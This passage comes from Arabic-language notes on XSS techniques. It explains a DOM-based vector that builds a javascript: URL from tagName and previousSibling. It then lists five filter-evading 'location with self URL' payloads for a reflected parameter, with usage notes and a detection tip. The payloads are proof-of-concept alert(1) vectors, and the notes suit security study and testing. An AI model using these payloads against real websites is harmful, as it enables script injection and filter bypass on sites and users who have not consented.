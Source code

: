 
##### 🔧 **شرح عملي:**

- تخيل الكود التالي داخل موقع:
    
    ```html
    <div onmouseover="location=this.tagName + this.previousSibling.nodeValue">hoverme!</div>
    ```
    
##### - إذا كانت القيمة السابقة للعنصر هي:
    
    ```
    `-alert(1)<javascript:
    ```
    
- يصبح ناتج `location = tagName + previousSibling.nodeValue = "DIV" + "`-alert(1)<javascript:"`
    
- النتيجة النهائية: `location="DIV`-alert(1)<javascript:"`→ ينفذ الكود لأن`<javascript:` يتم تفسيرها كبروتوكول مخصص للسكربت.
    

##### 🎯 **نقطة الكشف:**

- ابحث في الكود عن:  
    `location = ... tagName`, `previousSibling.nodeValue`, أو أي خصائص DOM مرتبطة بسياق URL.
    

##### **الخلاصة:**
ناقلات الموقع مع تنبيه أولي فعالة لأنها تُشكل XSS معقد باستخدام DOM وتتجاوز المرشحات.

---

##  الموقع مع URL الذاتي (Location with Self URL)

{   #ideas_for_url / #XSS_DOM  }

#### **الشرح البسيط:**
تستغل انعكاس معلمة URL ضعيفة (`[P]`) لتكوين `javascript:alert(1)` عبر `location`.

#### **الأكواد:**
```
<svg id=?[P]=<svg/onload=alert(1)+ onload=location=id>
<j/onmouseover=location=textContent>?[P]=<svg/onload=alert(1)>hoverme!</j>
<j/onmouseover=location+=textContent>&[P]=<svg/onload=alert(1)>hoverme!</j>
<j&[P]=<svg+onload=alert(1)/onmouseover=location+=outerHTML>hoverme!</j&[P]=<svg+onload=alert(1)>
&[P]=<svg/onload=alert(1)><j/onmouseover=location+=document.body.textContent>hoverme!</j>
```

#### **ملاحظة:**
- استبدل `[P]` بالمعلمة الضعيفة.
- رمز `&` إلى `%26` في URLs.
- الناقل الأخير خاص بـ Firefox.

#### **لماذا يعمل؟**
- تستغل انعكاس المعلمة لإدراج `<svg onload=alert(1)>`.
- `textContent` و`outerHTML` يُكملان الحمولة.
